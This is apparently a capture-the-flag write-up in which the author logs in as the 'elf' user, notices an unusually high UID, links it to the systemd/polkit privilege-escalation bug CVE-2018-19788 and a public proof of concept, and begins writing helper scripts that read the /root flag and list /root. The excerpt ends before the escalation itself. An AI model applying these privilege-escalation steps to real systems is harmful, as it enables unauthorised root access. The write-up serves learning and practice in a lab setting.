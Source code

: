 ```text
username: elf
password: elf

You've been a naughty kit, ho-ho-hoo!

northpole login: elf (automatic login)

Linux northpole 4.9.18-otw #15 Fri Dec 7 16:31:26 CET 2018 x86_64
elf@northpole:~$ whoami
elf
``` 

But after the connection, we can notice that the new machine is being run, where automatically we're logged into user `elf`. 

```text
elf@northpole:~$ uname -a
Linux northpole 4.9.18-otw #15 Fri Dec 7 16:31:26 CET 2018 x86_64 GNU/Linux
```

During enumeration, nothing came unusal. But what I've not noticed during the competition is the very high `UID` number of of `elf` user. 

```text
elf@northpole:~$ id
uid=4020181224(elf) gid=100(users) groups=100(users)
elf@northpole:~$ systemctl --version
systemd 232
+PAM +AUDIT +SELINUX +IMA +APPARMOR +SMACK +SYSVINIT +UTMP +LIBCRYPTSETUP +GCRYPT +GNUTLS +ACL +XZ +LZ4 +SECCOMP +BLKID +ELFUTILS +KMOD +IDN
```

Researching this more showed very new exploit, shown in [this](https://gitlab.freedesktop.org/polkit/polkit/issues/74/) and this [this](https://github.com/systemd/systemd/issues/11026) link. 

With that information, we can run `systemctl` command, with which we can try to files from `/root` directory and effectively, the flag. As I've found additional [POC](https://github.com/AbsoZed/CVE-2018-19788), we can try to replicate it.

Firstly let's create a `dup.sh` script that will read the contents from the `/root` directory int a file in `elf` home directory. In addition we have to add execution privilages to the script.

```sh
cat <<EOF >> /home/elf/dup.sh
#!/bin/sh

cat /root/flag > /home/elf/flag
EOF


cat <<EOF > /home/elf/dup.sh
#!/bin/sh

ls -al /root/ > /home/elf/dir
EOF
elf@northpole:~$ chmod +x dup.sh
```
